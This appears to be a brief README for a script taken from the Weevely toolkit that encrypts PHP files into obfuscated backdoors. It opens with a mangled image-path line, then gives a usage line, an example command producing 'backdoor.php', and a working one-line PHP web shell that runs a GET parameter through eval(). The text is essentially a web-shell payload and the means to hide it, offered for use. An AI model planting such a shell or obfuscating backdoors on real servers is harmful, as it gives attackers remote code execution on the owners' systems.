 weevely-encryption
===

weevely-encryption is extracted in weevely(https://github.com/epinna/Weevely)

### Help Menu
    Usage: weevely-encryption.py input_filename.php output_filename.php

### Example
    ./weevely-encryption.py test.php backdoor.php

####test.php
    <?php eval($_GET['a']);?>
